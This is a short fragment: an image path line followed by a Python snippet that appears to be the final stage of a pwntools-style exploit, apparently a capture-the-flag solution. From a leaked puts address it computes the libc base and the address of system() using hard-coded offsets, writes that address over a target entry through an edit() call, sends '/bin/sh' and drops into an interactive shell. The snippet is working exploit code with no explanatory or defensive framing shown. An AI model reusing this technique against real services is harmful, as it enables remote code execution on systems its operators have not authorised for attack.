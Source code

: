 ```python
print(hex(puts_addr))

libc_base=puts_addr-0x06f5d0
print(hex(libc_base))
system_addr=libc_base+0x045380
payload=p64(system_addr)
edit(2,len(payload),payload)
link.sendline(b'/bin/sh')

link.interactive()
```

